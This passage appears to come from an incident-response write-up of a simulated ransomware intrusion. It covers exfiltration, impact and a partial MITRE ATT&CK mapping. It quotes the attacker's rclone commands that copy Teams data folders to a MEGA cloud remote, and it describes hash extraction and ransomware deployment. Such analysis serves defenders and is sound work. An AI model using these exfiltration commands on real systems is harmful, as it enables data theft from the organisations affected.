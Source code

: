 ## Exfiltration

The attacker shifted tactics and utilized Rclone’s MEGA integration to exfiltrate data to Mega.io. The following command was executed during the exfiltration process:

```powershell
"C:\Users\Public\rclone+config\rclone.exe" copy C:\ProgramData\Teams mega:V1A
"C:\Users\Public\rclone+config\rclone.exe" copy C:\ProgramData\Microsoft\Teams mega:V1A
```

The data was transferred to the domain `gfs214n181.userstorage.mega.co.nz`.

![Exfiltration](/posts/dfir_simulated-case-1/images/exf.png "Exfiltration")

## Impact

The attacker gained full domain control, accessing and exfiltrating sensitive data such as HR and financial files. Active Directory data and NTLM password hashes were extracted, enabling persistent access and lateral movement across the environment.

In the final phase of the intrusion, ransomware was deployed across multiple systems, including `LAPTOP5`, `SERVER8`, `FILES5`, `EXCHANGE`, and `DC1`. This resulted in the encryption of all accessible files, effectively rendering critical business data and systems unusable. Combined with the use of remote access tools like AnyDesk, Atera RMM, and Splashtop, the attacker ensured continued access while maximizing operational disruption. The encryption caused major outages and data unavailability, impacting business continuity and recovery efforts.

## MITRE ATT&CK

**Initial Access**

- Phishing (T1566)

**Execution**

- PowerShell (T1059.001)
- Windows Command Shell (T1059.003)
- Windows Management Instrumentation (T1047)
- Remote Service Session Hijacking (T1569.002)
- User Execution: Malicious File (T1204.002)
